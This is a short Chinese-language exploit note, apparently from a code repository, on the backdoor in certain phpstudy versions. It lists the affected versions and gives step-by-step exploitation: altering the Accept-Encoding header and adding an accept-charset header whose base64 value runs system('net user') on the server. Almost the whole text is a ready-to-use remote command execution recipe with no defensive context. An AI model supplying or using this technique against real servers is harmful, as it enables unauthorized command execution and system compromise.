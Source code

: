 #漏洞版本
phpstudy后门

#影响版本
phpstudy 2016版php-5.4
phpstudy 2018版php-5.2.17
phpstudy 2018版php-5.4.45

#利用
浏览主页抓包

去掉Accept-Encoding:gzip, defate逗号后面的空格去掉，否则命令执行会失败

在请求头添加
accept-charset:ZWNobyBzeXN0ZW0oIm5ldCB1c2VyIik7


密文内容为 echo system('net user');